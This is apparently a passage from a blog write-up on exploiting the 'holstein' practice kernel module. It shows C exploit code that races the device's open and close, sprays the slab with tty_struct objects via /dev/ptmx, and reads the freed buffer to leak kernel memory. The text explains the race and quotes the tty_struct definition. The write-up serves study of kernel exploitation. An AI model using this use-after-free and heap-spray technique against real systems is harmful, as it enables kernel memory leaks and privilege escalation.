 ```c
        if (!(fd = open("/dev/holstein", O_RDWR))) {
            printf("open main failed!");
            exit(1);
        }
        int ptmx[0x100] = {0};
        char leak_buff[0x400] = {0};

        for (int i = 0; i < 0x100; ++i) {
            ptmx[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        }
        read(fd, leak_buff, 0x400);
        printf("%16lx\n", *(unsigned long *) leak_buff);

        for (int i = 0; i < 0x100; ++i) {
            close(ptmx[i]);
        }
        close(fd);
    }

    return 0;
}
```

Main invokes a `race_thread`, which periodically opens and closes the `holstein` device, triggering `module_open`, and possibly `module_close`.
The main thread then sprays the 1024-slab with `tty_struct` objects by opening `/dev/ptmx`, more on this struct can be found [here](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#tty_struct).
The main also tries to read the content of `gbuf`, which should be zeroed since it was allocated using `kzalloc`, but - if the race succeeded, 
it was freed after the allocation by the `race_thread`, and then re-allocated to the sprayed `tty_struct`.
So, when we print it, if we won the race, we should see non-zeros:
![Pasted image 20230915103800](https://github.com/0xAriana/blog/assets/121199478/f3046ecc-7a15-4837-934d-33d9dc074652)

As we can see, in 2 cases of the loop, we printed 0x5401 which corresponds to a magic of `tty_struct.

`tty_struct` definition for kernel 5.16.14 can be found [here](https://elixir.bootlin.com/linux/v5.16.14/source/include/linux/tty.h#L143)
```c

struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;

	/* Protects ldisc changes: Lock tty not pty */
	struct ld_semaphore ldisc_sem;
	struct tty_ldisc *ldisc;

	struct mutex atomic_write_lock;
	struct mutex legacy_mutex;
	struct mutex throttle_mutex;
	struct rw_semaphore termios_rwsem;
	struct mutex winsize_mutex;
	/* Termios values are protected by the termios rwsem */
	struct ktermios termios, termios_locked;
	char name[64];
	unsigned long flags;
	int count;
```
